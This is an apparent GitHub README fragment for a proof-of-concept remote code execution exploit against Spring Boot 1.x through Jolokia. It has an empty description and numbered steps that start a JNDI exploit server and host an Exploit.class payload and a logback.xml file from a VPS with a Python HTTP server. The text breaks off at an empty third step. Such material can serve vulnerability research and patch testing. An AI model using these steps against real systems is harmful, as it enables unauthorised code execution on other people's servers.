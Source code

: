 ## Spring Boot 1.x RCE with Jolokia

### Description


### PoC

1. ```java -jar /exp/jdniserver/target/jdniserver-1.0-SNAPSHOT.jar```


2. put the /exp/Exploit.class and logback.xml in VPS and start a httpserver in current directory by ```python3 -m http.server 8081```

3. 